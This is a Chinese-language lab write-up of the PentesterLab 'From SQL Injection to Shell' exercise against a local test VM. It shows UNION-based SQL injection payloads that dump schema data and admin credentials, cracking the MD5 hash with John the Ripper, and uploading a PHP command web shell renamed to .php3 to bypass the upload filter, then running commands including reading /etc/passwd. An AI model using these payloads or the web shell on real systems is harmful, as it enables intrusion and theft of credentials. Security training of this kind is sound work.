 ##  从SQL注入到Shell

### 实验目的
在基于PHP的网站中使用SQL注入并使用它来访问管理页面，用这种访问，在目标服务器上获得代码执行。

### 实验步骤
- 指纹：收集有关Web应用程序和正在使用的技术的信息
- SQL注入的检测和利用：学习SQL注入如何工作以及如何利用它们来检索信息
- 访问管理页面和代码执行：访问操作系统和运行命令的最后一步

### 实验环境

攻击者主机和靶机均为NAT网络
靶机使用下载的镜像
攻击者主机IP：10.0.2.22
靶机IP：10.0.2.21

![](image/1.png)

![](image/2.png)

### 实验过程

#### 1.收集指纹

* http请求测试
  * 攻击者主机浏览器设置代理

  ![](image/3.png)

  * 浏览器访问http://10.0.2.21

  ![](image/4.png)

  * burpsuite劫持

  ![](image/5.png)
  上图可以看出靶机使用的网络服务器、以及php版本信息

* https请求测试
  * 请求失败
  ![](image/6.png)

  * 使用工具wfuzz蛮力检测Web服务器上的目录和页面
    * 使用命令
    ```
    $ python wfuzz.py -c -z file,wordlist/general/big.txt --hc 404 http://10.0.2.21/FUZZ
    ```
    其中
    ```
    -c 表示高亮显示
    -z file，wordlist / general / big.txt 告诉wfuzz使用文件wordlists / general / big.txt作为字典来强制远程目录的名字。
    --hc 404 告诉wfuzz忽略响应，如果响应代码是404（Page not found）
    http：// vulnerable / FUZZ 告诉wfuzz用字典中的每个值替换URL中的FUZZ这个词。
    ```

    `没有成功`

#### 2.SQL注入的检测和利用

##### SQL注入检测
* SQL简介
 * retrieve information using the SELECT statement; `检索`
 * update information using the UPDATE statement; `修改`
 * add new information using the INSERT statement;`增加`
 * delete information using the DELETE statement.`删除`


* 发现sql漏洞存在：

  请求10.0.2.21/cat.php?id=3' 网页报错提示语法错误(单引号)以及数据库应为Mysql

  ![](image/8.png)

* 基于整数测试 用户提供的值被视为一个整数直接回显到SQL请求中

  ![](image/9.png)
  ![](image/10.png)

* 利用UNION开发SQL注入
  * 获取数据库版本号

  `.php?id=1 UNION SELECT 1,@@version,3,4`

  ![](image/11.png)

  * 获取系统当前用户名

  `.php?id=1 UNION SELECT 1,current_user(),3,4`

  ![](image/12.png)

  * 获取当前数据库名

  `.php?id=1 UNION SELECT 1,database(),3,4`

  ![](image/13.png)

##### 通过查看information_schema数据库获取更多信息

  >在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。


* 检索数据库中所有表名

  `1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

  ![](image/14.png)

* 检索数据库中所有列名

  `1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

  ![](image/15.png)

* 查看表名和列名的对应关系

  `1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`

  ![](image/16.png)

* 获取管理员密码

  `1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;`

  ![](image/17.png)

##### 破解密码

`8efe310f9ab3efeae8d410a8e0166eb2`

* 方法一：网上在线破解

  ![](image/18.png)

* 方法二：John the ripper密码破解工具

  ```
  命令：
  john password --format=raw-md5 --wordlist=dico --rules
  参数：
  password 告诉 John 什么文件包含密码的哈希值
  --format=raw-md5 告诉 John 密码哈希是 raw-md5 格式
  --wordlist=dico 告诉 John 使用文件 dico 作为字典
  --rules 告诉 John 尝试遍历每个可用的单词
   ```
  ![](image/19.png)

两种方法解密出的结果都是`P4ssw0rd`

####  3.访问管理页面和代码执行

* 根据破解的密码和用户名进入管理界面
![](image/20.png)

* 创建php脚本后点击上图界面的右侧`New Picture`按钮上传脚本文件
```php
<?php
system($_GET['cmd']);
?>
```
  * 直接上传php文件会显示失败因为不支持php文件的上传，将文件后缀名改为.php3之后可以成功上传
  ![](image/21.png)
  ![](image/22.png)

* 利用cmd执行任意命令利用脚本
  * 访问http：//vulnerable/admin/uploads/shell.php3？cmd = uname将在操作系统上运行命令uname并返回当前内核。
  ![](image/23_1.png)
  ![](image/23.png)

  * ls获取当前目录的内容
  ![](image/24.png)

  * 获取靶机系统用户列表
  `cat /etc/passwd`
  ![](image/25.png)
  ![](image/25_1.png)

####  参考资料

>From SQL Injection To Shell指导书https://pentesterlab.com/exercises/from_sqli_to_shell/course
